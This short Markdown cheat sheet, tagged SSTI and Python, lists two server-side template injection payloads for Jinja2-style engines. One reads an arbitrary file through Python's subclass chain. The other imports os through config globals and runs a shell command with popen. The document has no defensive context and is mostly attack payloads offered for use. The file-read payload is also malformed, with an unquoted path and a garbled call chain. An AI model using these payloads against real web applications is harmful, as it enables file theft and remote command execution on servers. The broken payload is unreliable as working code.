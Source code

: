 #SSTI #python

## Read a file
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]()(/my/file).read()}}	
```

## Import os module, and run a command (popen).
```
{{config.__class__.__init__.__globals__['os'].popen(myCommand).read()}}
```

